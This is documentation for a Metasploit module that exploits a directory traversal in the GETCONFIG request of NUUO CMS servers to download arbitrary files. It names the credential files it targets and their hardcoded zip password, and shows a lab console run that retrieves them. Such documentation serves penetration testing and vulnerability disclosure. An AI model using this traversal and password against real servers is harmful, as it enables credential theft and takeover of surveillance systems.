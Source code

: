 ## Vulnerable Application

Nuuo CMS Authenticated Arbitrary File Download

The GETCONFIG verb is used by a CMS client to obtain configuration files and other resources from the CMS server. An example request is below:

```
GETCONFIG NUCM/1.0
FileName: <filename>
FileType: <number>
User-Session-No: <session-number>
```

The FileType determines the directory where the file will be downloaded from. "FileType: 0" will download from the base installation directory (CMS_DIR), while "FileType: 1" will download from "<CMS_DIR>\Images\Map\". There are other defined FileType integers, but these have not been investigated in detail.

The vulnerability is in the "FileName" parameter, which accepts directory traversal (..\\..\\) characters. Therefore, this function can be abused to obtain any files off the file system, including:

- CMServer.cfg, a file zipped with the password "NUCMS2007!" that contains the usernames and passwords of all the system users (enabling a less privileged user to obtain the administrator's password)
- ServerConfig.cfg, another file zipped with the password "NUCMS2007!" that contains the SQL Server "sa" password as well the FTP server username and password
- Any other sensitive files in the drive where CMS Server is installed.

This module works in the following way:

- if a SESSION number is present, uses that to login
- if not, tries to authenticate with USERNAME and PASSWORD

Due to the lack of ZIP encryption support in Metasploit, the module prints a warning indicating that the archive cannot be unzipped in Msf.

[NUUO Central Management Server (CMS): all versions up to and including 3.5.0](http://d1.nuuo.com/NUUO/CMS/)

The following versions were tested:

 - 1.5.2 OK
 - 2.1.0 OK
 - 2.3.2 OK
 - 2.4.0 OK
 - 2.6.0 OK
 - 2.9.0 OK
 - 2.10.0 OK
 - 3.1 OK
 - 3.3 OK
 - 3.5 OK

## Scenarios

### Tested on Windows 10 Pro x64 running NCS Server 2.4.0

```
msf auxiliary(gather/nuuo_cms_file_download) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf auxiliary(gather/nuuo_cms_file_download) > exploit

[+] 172.22.222.200:5180 - Downloaded file to /home/msfdev/.msf4/loot/20190219064923_default_172.22.222.200_CMServer.cfg_227185.cfg
[+] 172.22.222.200:5180 - Downloaded file to /home/msfdev/.msf4/loot/20190219064923_default_172.22.222.200_ServerConfig.cfg_050084.cfg
[*] 172.22.222.200:5180 - The user and server configuration files were stored in the loot database.
[*] 172.22.222.200:5180 - The files are ZIP encrypted, and due to the lack of the archive/zip gem,
[*] 172.22.222.200:5180 - they cannot be decrypted in Metasploit.
[*] 172.22.222.200:5180 - You will need to open them up with zip or a similar utility, and use the
[*] 172.22.222.200:5180 - password NUCMS2007! to unzip them.
[*] 172.22.222.200:5180 - Annoy the Metasploit developers until this gets fixed!
[*] Auxiliary module execution completed
msf auxiliary(gather/nuuo_cms_file_download) >
```
